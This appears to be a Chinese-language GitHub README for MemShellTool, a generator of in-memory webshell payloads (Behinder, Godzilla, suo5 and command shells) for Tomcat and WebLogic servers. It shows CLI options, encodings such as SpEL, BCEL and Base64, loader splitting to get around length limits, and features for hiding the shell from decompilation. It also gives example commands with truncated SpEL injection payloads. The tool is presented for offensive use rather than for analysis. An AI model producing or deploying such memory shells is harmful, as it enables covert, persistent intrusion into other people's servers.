


# MemShellTool

内存马payload生成工具

# 0x00

- 一键生成内存马payload
- 支持多种类型webshell、代理工具
- 多种编码方式
- 支持生成agent马
- 应对特殊环境下的payload长度限制，支持通过加载器分离加载
- 隐藏内存马class中的函数，对抗人工反编译分析
- 添加gui和反编译功能，可反编译显示注入器和webshell类
- 完善中......

# 0x01

gui：
```
java -jar MemShellTool.jar -gui
```

命令行：
```
usage: java -jar MemShellTool.jar [-ct <arg>] [-d] [-h] [-hn <arg>] [-icn
       <arg>] [-it <arg>] [-k <arg>] [-op <arg>] [-ot <arg>] [-p <arg>]
       [-slt <arg>] [-sname <arg>] [-st <arg>] [-u <arg>]
 -ct,--containerType <arg>       ContainerType: Tomcat,Weblogic...
 -d,--default                    default option
 -h,--help                       print this message
 -hn,--headerName <arg>          access shell with header
 -icn,--injectClassName <arg>    loader name
 -it,--injectType <arg>          injectType: Single,Loader,ShellCode
 -k,--key <arg>                  shell key: GodZilla...need
 -op,--outPath <arg>             output path
 -ot,--outTpye <arg>             output type
 -p,--password <arg>             shell password
 -slt,--shellType <arg>          ServerType: CMD,Behinder...
 -sname,--shellClassName <arg>   shellClassName: xxxFilter
 -st,--serverType <arg>          ServerType: Filter,Valve,Servlet...
 -u,--shellPath <arg>            shell url: /shell

-------------------------

Available [InjectType]:
[SINGLE, LOADER, SHELLCODE]

-------------------------

Available [Container]:
[WEBLOGIC, TOMCAT]

-------------------------

Container [WEBLOGIC] Available ServerType:
[FILTER]
Container [TOMCAT] Available ServerType:
[FILTER, FILTER, SERVLET, VALVE, WEBSOCKET]

-------------------------

Server Type [FILTER] Available ShellType:
[BEHINDER, CMD, SUO5, GODZILLA]
Server Type [FILTER] Available ShellType:
[BEHINDER, CMD, SUO5, GODZILLA]
Server Type [SERVLET] Available ShellType:
[BEHINDER, CMD, GODZILLA]
Server Type [VALVE] Available ShellType:
[BEHINDER, CMD, GODZILLA]
Server Type [WEBSOCKET] Available ShellType:
[CMD]

-------------------------

Available OutTpye:
[RAW, BASE64, BCEL, JAVASCRIPT, SPEL, EL]
```

example：
spel表达式 tomcat filter 哥斯拉内存马
```
java -jar MemShellTool-v1.0.jar -d -ct TOMCAT -sname Helper -st FILTER -u /404 -slt BEHINDER -ot SPEL

spel with JsEngine:
T(javax.script.ScriptEngineManager).newInstance().getEngineByName("js").eval('var co......
spel with Spring defineClass:
T(org.springframework.cglib.core.ReflectUtils).defineClass("inje......
     key             value
     -------         -------
     InjectType      SINGLE
     ServerType      FILTER
     ContainerType   TOMCAT
     ShellType       BEHINDER
     ShellClassName  Helper
     ShellPath       /404
     Password        1a1dc91c907325c6
     Key             key
     HeaderName      Accept-Header
     InjectClassName inject_dc58ad
     OutPath         ./
     OutTpye         SPEL
```

SPEL 注入 tomcat websocket内存马
```
java -jar MemShellTool-v1.0.jar -d -ct TOMCAT -sname Helper -st WEBSOCKET -u /ws -slt CMD -ot SPEL
```

注入shell


连接shell


# 0x2

新增fastjson内存马，基于fastjson组件实现内存马功能。

目前支持cmdshell和冰蝎4.0

实现原理参考：https://oh3r.vip/2025/02/05/fastjson%E5%86%85%E5%AD%98%E9%A9%AC/



# 0x3
反编译显示注入器和webshell类


